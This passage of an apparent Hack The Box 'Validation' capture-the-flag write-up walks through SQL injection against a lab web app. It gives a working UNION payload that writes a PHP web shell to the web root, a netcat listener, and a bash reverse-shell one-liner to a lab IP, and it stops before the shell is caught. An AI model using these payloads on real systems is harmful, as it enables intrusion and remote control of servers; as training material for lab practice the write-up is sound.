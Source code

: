 After pasting our payload into Burp Suite we should send the request.

![Image](/assets/img/WriteUp/HTB/Validation/Pasted image 20240521204816.png){: width="700" height="400" }

Just like the previous steps we should check the response. We have a confirmation that the file has been written.

![Image](/assets/img/WriteUp/HTB/Validation/Pasted image 20240521204833.png){: width="700" height="400" }

Let's check with curl if the file has been created on the webserver.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Validation]
└─$ curl http://$ip/emvee.txt
emvee'
This file is written by eMVee

```

Lucky us! We can write files to the webserver via SQL Injection. This gives us the possibility to create a webshell and gain access to the system.

Our payload to create a webshell looks like this:
```
username=emvee&country=Brazil' union select '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/cmd.php' -- -
```

After entering it into Burp Suite we should send it.

![Image](/assets/img/WriteUp/HTB/Validation/Pasted image 20240521205302.png){: width="700" height="400" }

Just like the previous steps we should check the response.

![Image](/assets/img/WriteUp/HTB/Validation/Pasted image 20240521205312.png){: width="700" height="400" }

Let's try to run the command `id` via the webshell.

![Image](/assets/img/WriteUp/HTB/Validation/Pasted image 20240521205323.png){: width="700" height="400" }

It looks like our webshell works and we can run our own commands. In this case we can see the userid and the memberships.
## Initial access
Let's start out netcat listener on port 443.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Validation]
└─$ rlwrap nc -lvp 443
listening on [any] 443 ...

```

The payload we will use for our reverse shell looks like this.
```bash
bash -c 'sh -i >& /dev/tcp/10.10.14.17/443 0>&1' 
```
We only have to URL encode the request and hit the send button.
